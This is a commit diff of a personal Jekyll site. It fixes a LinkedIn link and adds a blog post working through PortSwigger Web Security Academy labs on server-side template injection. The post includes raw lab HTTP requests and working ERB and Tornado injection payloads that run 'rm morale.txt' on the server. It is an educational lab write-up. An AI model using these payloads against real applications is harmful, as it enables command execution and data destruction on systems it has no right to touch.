

Before and after one commit to MSaidAlizada/MuhammadsaidAlizada, a Jekyll site: the page built from posts.html, in a window 1280 px wide and 900 px high. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
Nav Links Fixed, SSTI Post

````diff
--- a/_includes/nav.html
+++ b/_includes/nav.html
@@ -9,7 +9,7 @@
     <span>|</span>
     <a href="https://github.com/MSaidAlizada" target="_blank">GitHub</a>
     <span>|</span>
-    <a href="www.linkedin.com/in/muhammadsaid-alizada" target="_blank">LinkedIn</a>
+    <a href="https://www.linkedin.com/in/muhammadsaid-alizada/" target="_blank">LinkedIn</a>
   </div>
 
   <nav>
--- /dev/null
+++ b/_posts/2025-6-30-SSTI.md
@@ -0,0 +1,75 @@
+---
+layout: post
+title: "Server Side Template Injection - Web Sec academy labs"
+pinned: False
+---
+This post will run through the labs on web sec academy by Portswigger related to Server Side Template Injection.
+
+After finding a potential template injection you will have to identify the template engine since they can have different syntax. Using the below flow chart from Portswigger academy we can figure out the template engine:
+
+<div style="text-align: center;">
+    <img src="{{ site.url }}/assets/ssti/chart.png" alt="flow chart" style="width: 500px;"/>
+</div>
+
+### <u>Lab: Basic server-side template injection
+For this lab we are told there is a vulnerability due to the unsafe construction of an ERB template. When we try open the first product shown on the catalog we get the message "Unfortunately this product is out of stock" which is shown on our screen. Looking at the burp http history we find a request:
+```
+GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2
+Host: 0a4000c304ae989c804a216300b60089.web-security-academy.net
+Cookie: session=rtLpQI4Soenj8wMmnNyU1SbdatX4Y2pC
+User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
+Accept-Language: en-US,en;q=0.5
+Accept-Encoding: gzip, deflate, br
+Referer: https://0a4000c304ae989c804a216300b60089.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock
+Upgrade-Insecure-Requests: 1
+Sec-Fetch-Dest: document
+Sec-Fetch-Mode: navigate
+Sec-Fetch-Site: same-origin
+Sec-Fetch-User: ?1
+Priority: u=0, i
+Te: trailers
+```
+
+Now looking at ERB documentation we can change the request to see if we can execute commands using system().
+By using the request below we can delete the file.
+```
+GET /?message=<%25%3d+system('rm+morale.txt')+%25>
+```
+
+### <u>Lab: Basic server-side template injection (code context)
+In this lab instead Tornado as template engine and we have a comment section in posts. After logging in we see we can change our preferred name and when we do this this request is sent:
+```
+POST /my-account/change-blog-post-author-display HTTP/2
+Host: 0adb008104e0d4349d556ea500d40091.web-security-academy.net
+Cookie: session=LtI4PJuu21HxXAzlvMgYZuMR6nYRFEUI
+User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
+Accept-Language: en-US,en;q=0.5
+Accept-Encoding: gzip, deflate, br
+Content-Type: application/x-www-form-urlencoded
+Content-Length: 76
+Origin: https://0adb008104e0d4349d556ea500d40091.web-security-academy.net
+Referer: https://0adb008104e0d4349d556ea500d40091.web-security-academy.net/my-account?id=wiener
+Upgrade-Insecure-Requests: 1
+Sec-Fetch-Dest: document
+Sec-Fetch-Mode: navigate
+Sec-Fetch-Site: same-origin
+Sec-Fetch-User: ?1
+Priority: u=0, i
+Te: trailers
+
+blog-post-author-display=user.nickname&csrf=QsoccjcYx58Qo1Ad7rGtH14rfAssSKWn
+```
+Looking at this request I see that mabye the blog-post-author-display parameter can be used as a vulnerability to execute some commands since it gets displayed in comments. Using { } in tornado we can insert something and since it is a python template engine to run a command we need to import os and os.system("some command"). So when we first put this request with these parameters:
+```
+blog-post-author-display={import+os%3b+os.system('rm+morale.txt')+}
+```
+We get the error:
+```
+No handlers could be found for logger "tornado.application" Traceback (most recent call last): File "<string>", line 15, in <module> File "/usr/local/lib/python2.7/dist-packages/tornado/template.py", line 317, in __init__ "exec", dont_inherit=True) File "<string>.generated.py", line 5 _tt_tmp = import os; os.system('rm morale.txt') # <string>:1 ^ SyntaxError: invalid syntax
+```
+Now we can see that the code is being inserted into a variable declaration so if we just end that line by assigning the variable to some string and ending the line we can execute our own code so we the parameter:
+```
+blog-post-author-display={'a'%3b+import+os%3b+os.system('rm+morale.txt')+}
+```
````
Also changed, not shown: assets/ssti/chart.png (added), 4 other files.
